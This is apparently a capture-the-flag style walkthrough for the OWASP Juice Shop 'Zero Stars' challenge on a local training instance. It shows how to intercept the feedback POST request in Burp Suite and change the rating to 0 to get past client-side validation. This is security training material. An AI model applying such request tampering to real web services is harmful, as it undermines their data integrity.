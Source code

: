 # Zero Stars

***1 Star Challenge 2/28***

Give a devastating zero-star feedback to the store.

---

Start your 'burpsuite', go to **Proxy** Menu and click **Open browser**.
Now enter the url `localhost:3000/#/contact` to open the *Juice Shop* and navigate to `Customer Feedback`.
Create a new feedback.

*EXAMPLE:*
````
Authoer:    anonymous
Comment:    "This is a comment"
Rating:     3 Star
CAPTCHA:    9
````

Befor you *Submit* the from, activate 'Intercept on' in Burpsuite. 
Now you can see a *POST* request to `http://localhost:3000/api/Feedback/` in a list.
You can see every Information of this *Rquest*.

````json
{
  "captchaId": 4,
  "captcha": 9,
  "comment": "This is a comment (anonymous)",
  "rating": 3
}
````

Change "RATING" to `0`

````json
{
  "captchaId": 4,
  "captcha": 9,
  "comment": "This is a comment (anonymous)",
  "rating": 0 <--
}
````

Click `Forword` to send the new POST Request.


:::success Challenge completed!
:::